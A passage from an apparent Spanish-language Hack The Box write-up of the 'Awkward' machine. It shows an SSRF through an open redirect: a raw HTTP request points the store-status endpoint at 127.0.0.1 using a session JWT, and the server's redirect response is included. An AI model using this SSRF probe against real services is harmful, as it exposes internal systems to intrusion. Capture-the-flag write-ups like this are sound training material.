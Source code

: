 <img src="/writeups/assets/img/Awkward-htb/6.png" alt="">

Hay un SSRF en un openredirect

<img src="/writeups/assets/img/Awkward-htb/7.png" alt="">

```null
GET /api/store-status?url="http://127.0.0.1:80" HTTP/1.1
Host: hat-valley.htb
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Referer: http://hat-valley.htb/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc5NTkxMTM1fQ.lX7idsk2WrMUTxVUeMD0xHMR_DD05ldskrbEOMaQ8-I
Connection: close
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 23 Mar 2023 17:07:32 GMT
Content-Type: text/html; charset=utf-8
Connection: close
x-powered-by: Express
access-control-allow-origin: *
etag: W/"84-P/5ob00JvOzx20G7pf2GChzepTg"
Content-Length: 132

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Refresh" content="0; url='http://hat-valley.htb'" />
```